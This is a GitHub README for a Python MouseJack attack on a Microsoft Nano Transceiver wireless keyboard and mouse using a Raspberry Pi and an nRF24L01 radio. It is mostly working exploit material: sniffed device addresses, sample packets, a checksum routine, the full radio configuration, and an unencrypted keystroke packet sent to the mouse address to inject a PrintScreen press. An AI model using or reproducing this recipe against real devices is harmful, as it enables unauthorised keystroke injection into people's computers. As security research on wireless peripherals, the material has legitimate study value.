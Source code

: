 # mousejack_for_microsoft
Mousejack. Example of the attack for a microsoft keyboard. 
Tested for ID **045e:0745** Microsoft Corp. Nano Transceiver v1.0 for Bluetooth

Chip is nRF24L01 compatible.<br>
Code is simple, on Python.<br>
For raspberry with nRF24L01.<br>

I catch transmitting on channel 70 (not only this one)<br>
There are two address pairs. `[0xa97cd6796d, 0x5f359e5b53, 0xa97cd679cd, 0x5f359e7350]`<br>
One pair for a mouse:         `0xa97cd679cd, 0x5f359e7350`<br>
Another pair for a keyboard:  `0xa97cd6796d, 0x5f359e5b53`<br>
On mouse address you can sniff mouse traffic.<br>
I got this:<br>
`4c044801781bcc200000787ffbff80000000003e` It was a move up-left with speeds `787f` and `fbff`.<br>
Sample packets:<br>
```
'a97cd6796d 4c04480178 484020000000007fff800000000062'.replace(' ',''),
'a97cd6796d 4c04480178 2007a00000000000007fff8000004d'.replace(' ',''),
'a97cd6796d 4c04480178 4e402000007f7f8080000000000064'.replace(' ',''),

'a97cd6796d 4d04480178 1e87a00000000000007fff80000073'.replace(' ',''),
'a97cd6796d 4d04480178 4ec020000000800080000000000064'.replace(' ',''),

'a97cd6796d 4e04480178 1f07a00000000000007fff80000072'.replace(' ',''),
```

Lats look at `'a97cd6796d 4e04480178 484020000000007fff800000000062'` <br>
`a97cd6796d` - address of the pipe <br>
`4c04480178` - some ID <br>
`484020000000007fff800000000062` - payload. First 2 bytes - some sequence.
The last one byte - checsum of the payload
```
def checksum(p, ck_offset = 0):
    csum = 0
    for i in range(len(p)):
        csum = csum ^ p[i]
    return csum ^ ck_offset
```
Checksum calculated from payload: `484020000000007fff8000000000` - it is `62`. This checksum is additional to
checksum of the nRF packet.<br>
To transmitting i use this configuration:<br>
```
================ SPI Configuration ================
CSN Pin  	 = CE0 (PI Hardware Driven)`
CE Pin  	 = Custom GPIO25
Clock Speed	 = 8 Mhz
================ NRF Configuration ================
STATUS		 = 0x0e RX_DR=0 TX_DS=0 MAX_RT=0 RX_P_NO=7 TX_FULL=0
RX_ADDR_P0-1	 = 0xa97cd6796d 0xc2c2c2c2c2
RX_ADDR_P2-5	 = 0xc3 0xc4 0xc5 0xc6
TX_ADDR		 = 0xa97cd6796d
RX_PW_P0-6	 = 0x14 0x00 0x00 0x00 0x00 0x00
EN_AA		 = 0x00
EN_RXADDR	 = 0x03
RF_CH		 = 0x46
RF_SETUP	 = 0x0f
CONFIG		 = 0x0e
DYNPD/FEATURE	 = 0x00 0x00
Data Rate	 = 2MBPS
Model		 = nRF24L01+
CRC Length	 = 16 bits
PA Power	 = PA_MAX
```

**Do not forget!** For attack we use **mouse** address as a target. And send a notcrypted keyboard packet to it.<br>
In sample i send this:
`a97cd6796d 4c04480178 1b0020000023000000000000000052`

`2300` - it's a [Keyboard PrintScreen](http://www.freebsddiary.org/APC/usb_hid_usages.php)<br>
It's a usb hid data. Why **23** and not **46**?
Couse:<br>
`0x2300` - `0010001100000000` if we skip first bit we got `0100011000000000` - `0x4600` (0x46	Keyboard PrintScreen)

**Try to send packets few times. Till sequence coincides.**
